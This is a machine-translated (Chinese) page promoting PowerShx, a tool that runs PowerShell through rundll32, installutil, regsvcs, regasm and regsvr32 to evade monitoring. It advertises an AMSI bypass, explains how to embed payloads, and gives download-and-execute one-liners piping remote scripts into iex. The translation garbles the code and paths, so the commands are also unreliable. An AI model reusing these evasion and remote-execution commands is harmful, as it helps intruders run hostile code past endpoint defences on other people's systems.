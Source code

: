 # PowerShx:不受软件限制地运行 Powershell

> 原文：<https://kalilinuxtutorials.com/powershx/>

[![](img//1fc5c421694a352d19da4fe2af74b572.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjvhCMisufwH_9ygaNxDXAEO0hw7oKd0yFFjfvRD_g8yalNy9NnrcnjlLuRD6eb3df1qvGbW859rwUlhITawN3jMywy_q733QyRlK8viZI-y130rWQcfRUgN41ExP1bA0KZraPijAEp9cX2XRc1fRa2fa7B9cojLTOgdQCTlhTAaNOKmwB0s49HYnmq=s707)

**PowerShx** 是对 PowerShdll 项目的重写和扩展。PowerShx 提供了绕过 AMSI 和运行 PS Cmdlets 的功能。

**特色**

*   使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regsvr32.exe regasm.exe 运行带有 dll 的 Powershell。
*   不使用 powershell.exe 或 powershell_ise.exe 运行 Powershell
*   AMSI 旁路功能。
*   直接从命令行或 Powershell 文件运行 Powershell 脚本
*   导入 Powershell 模块并执行 Powershell Cmdlets。

**用法**

T1。dll 版本

**rundll32**

**rundll32 PowerShx.dll，main -e
rundll32 PowerShx.dll，main -f 运行作为参数传递的脚本
rundll32 PowerShx.dll，main -f -c 加载脚本并运行 PS cmdlet
rundll32 powershx . dll，main -w 在新窗口中启动交互控制台
rundll32 PowerShx.dll，main -i 启动交互控制台
rundll32 PowerShx**

**备选方案(这些技术的分包商的信用)**

**x86–C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
x64–C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 3031964 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
x86 C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
x86 C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
regsvr 32/s/U PowerShx.dll—>调用 DllUnregisterServer
regsvr 32/s PowerShx.dll—>调用 DllRegisterServer**

**。exe 版本**

**PowerShx.exe-我启动一个交互控制台
PowerShx.exe-e
PowerShx.exe-f 运行作为参数传递的脚本
PowerShx.exe-f-c 加载一个脚本并运行一个 PS cmdlet
PowerShx.exe-s 试图绕过 AMSI。**

**嵌入式有效载荷**

可以通过更新数据字典“Common”来嵌入有效载荷。Payloads.PayloadDict”并在方法 PsSession.cs -> Handle()中调用它。示例:在 Handle()方法中:

**私有 void 句柄(Options 选项)
{
//用户脚本前预执行
_ps。有效负载。payload dict[" amsi "])；
}**

**例题**

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main[系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))PowerShx.exe ^| iex
e【系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))^| iex**

注意:帝国 stagers 需要用[System]解码。Text.Encoding]::Unicode

**运行 base64 编码的**脚本

**rundll32 PowerShx.dll，main。{ iwr-useb https://website.com/Script.ps1 } ^| iex；
PowerShx.exe-e”IEX((new-object net . webclient)。download string(' http://192 . 168 . 100/payload-http ')"**

**要求**

。网络 4

[**Download**](https://github.com/iomoath/PowerShx)